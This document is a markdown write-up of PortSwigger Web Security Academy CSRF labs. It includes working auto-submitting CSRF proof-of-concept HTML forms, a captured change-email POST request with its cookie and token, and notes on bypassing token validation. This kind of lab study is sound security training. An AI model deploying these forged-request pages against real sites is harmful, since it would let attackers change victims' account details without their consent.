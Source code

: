 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF where token validation depends on request method
- We note that changing email requires a CSRF token that cannot be removed or nullified in the body of the POST request.
- Let's alter the POST request from:
```
POST /my-account/change-email HTTP/2
Host: 0aa300e903e645daa8aadef600a10092.web-security-academy.net
Cookie: session=6zRITg1tqB9Eh3jTUmhYmhCv0JewZeLJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net
Referer: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Te: trailers

email=wiener4%40normal-user.net&csrf=wxN4HFe3P0vgWDHNar2dTT0QuGrj8yy9
```
to 

![image](https://github.com/user-attachments/assets/28a9f86f-b4be-4d4e-87b1-8e09c212a52e)

## CSRF where token validation depends on token being present
- Changing email initially includes a CSRF token in the body, but we found just removing it still allows for successful changing of email. We generated a CSRF PoC by just removing the CSRF token.

## CSRF where token is not tied to user session
- Two users are provided. We assume one as compromised and intercept the POST request to change email. Copy the CSRF token and drop the request.
- Generate a CSRF PoC with the copied CSRF token of the compromised user and use it to change the email of the second user.

## CSRF where token is tied to non-session cookie


## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
